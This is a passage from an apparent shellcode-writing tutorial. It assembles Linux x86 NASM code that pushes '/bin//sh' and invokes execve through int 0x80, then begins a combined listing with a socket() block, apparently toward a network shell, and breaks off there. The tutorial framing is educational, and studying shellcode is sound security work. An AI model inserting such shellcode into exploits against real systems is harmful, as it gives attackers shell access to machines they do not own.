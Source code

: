 ```C
int execve(const char </bin/sh, NULL>, char *const <address of /bin/sh, NULL>, char *const <NULL>);
```

Let’s check `execve()` syscall id.

```sh
root@falafel:~# cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep execve
#define __NR_execve		 11
root@falafel:~# 
```

Some more code!

```nasm
    ;
    ;execve() code block
    ;

    ; push NULL followed by "/bin//sh" for filename
    push eax
    push 0x68732f2f
    push 0x6e69622f

    ; store ESP pointer to "/bin//sh" in EBX
    mov ebx, esp

    ; save arguments pointer to ECX
    push eax
    mov edx, esp
    push ebx
    mov ecx, esp

    ;__NR_execve 11, ping kernel!
    mov al, 0xb
    int 0x80
```

Final Shellcode
---------------
In this section we will glue all of previous code blocks together as shown below and then produce our final working shellcode.

```nasm
global _start

section .text

_start:
 
    ; zero out registers
    xor eax, eax 
    xor ebx, ebx
    xor edx, edx
    xor esi, esi

    ; 
    ; socket() code block
    ;

    ; push NULL for protocol type
    push eax

    ; __NR_socketcall 102
    mov al, 0x66

    ; #define SYS_SOCKET 1
```